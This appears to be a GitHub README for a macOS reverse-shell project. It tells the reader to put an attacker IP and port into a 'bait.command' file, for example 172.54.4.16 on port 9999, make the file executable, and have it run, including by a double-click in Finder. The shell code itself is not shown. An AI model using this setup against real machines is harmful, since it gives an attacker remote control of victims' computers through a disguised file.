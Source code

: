 # Reverse_Shell_MacOS
Simple reverse shell attack.
Do not use for malicious purposes.

## Requirements:
-  the macOS operating system (on the attacked VM)
-  Xcode
-  file accessing permissions for Terminal


## 1. Customisation & Preparation.
In `bait.command`, line 10, change the numbers `HOST,PORT=\"0.0.0.0\",\"0\"` to match the attacker's IP on a port of your choice. (For example, `HOST,PORT=\"172.54.4.16\",\"9999\"`)
Make sure `bait.command` has appropriate permissions: `chmod +x bait.command` or 'chmod 111 bait.command`

## 2. Running options.
-  Calling `./bait.command` from the command line
OR
-  Running the code inside `bait.command`
OR
-  Double-clicking the file in Finder or Desktop (requires .command extention)

